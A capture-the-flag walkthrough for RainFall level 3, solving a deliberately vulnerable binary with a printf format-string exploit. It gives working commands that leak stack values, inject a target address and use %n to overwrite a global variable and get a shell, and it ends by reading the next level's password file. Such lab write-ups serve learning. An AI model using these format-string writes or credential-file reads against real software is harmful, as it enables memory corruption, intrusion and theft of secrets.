 # Level 3

In this level we can see that we need to edit the value of the variable `m` to `0x40` in order to get a shell.
```asm
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
The input is read with the secure function `fgets`, our exploit lies elsewhere, in `printf`.

## The exploit
```shell
level3@RainFall:~$ ./level3 
%p %p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0 0x25207025
```
Odd, we're getting the value of the argument of fgets and what strongly looks like stack addresses, which means....

We know that the ascii of value value of 0 is `0x30`, let's try inserting a bunch of zeroes at the start of our buffer:
```shell
level3@RainFall:~$ ./level3 <<< `python -c 'print "0000" + "%p "*10'`
00000x200 0xb7fd1ac0 0xb7ff37d0 0x30303030 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```
We can see that the 4th pointer gets modified by our printf format string as it's made of four zeroes (0x30303030), nice!

Let's simplify our string a bit now that we know which argument we can act on

```shell
level3@RainFall:~$ ./level3 <<< `python -c 'print "0000%4$p"'`
00000x30303030
```

## Inserting the address
```shell
level3@RainFall:~$ objdump -t ./level3  | grep m
[...]
0804988c g     O .bss   00000004              m
[...]
```
the value of `m` is `0x804988c`, we can get it from `gdb`, `r2`, `objdump` or ghidra.

Let's insert it as a value.
```shell
level3@RainFall:~$ ./level3 <<< `python -c 'import struct; print struct.pack("<Q", 0x804988c) + "%4$p"'`
0x804988c
```

## Modifying memory
Now that we have access to the address of `m`, we can use `%n` to write a number to it as the BUG section of `printf` man tells us. 
The flag `%n` writes the number of character written so far to the pointer passed as argument, perfect to modify the value of `m`!

Since our format string is 4 bytes long, we need to add 60 more bytes

```shell
./level3 <<< `python -c 'import struct; print struct.pack("<Q", 0x804988c) + "a"*60 + "%4$n"'`
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

We won! we just need to find a way to keep the shell open now.

## Putting it together
struct.pack adds extra padding as we can see with hexdump:
```shell
level3@RainFall:~$ python -c 'import struct; print struct.pack("<Q", 0x804988c) + "a"*60 + "%4$n"' | hexdump -C
00000000  8c 98 04 08 00 00 00 00  61 61 61 61 61 61 61 61  |........aaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000040  61 61 61 61 25 34 24 6e  0a                       |aaaa%4$n.|
00000049
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' | hexdump -C
00000000  8c 98 04 08 61 61 61 61  61 61 61 61 61 61 61 61  |....aaaaaaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000040  25 34 24 6e 0a                                    |%4$n.|
00000045
```
So let's write `0x804988c` in little-endian manually.

```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' ; cat -) | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
```
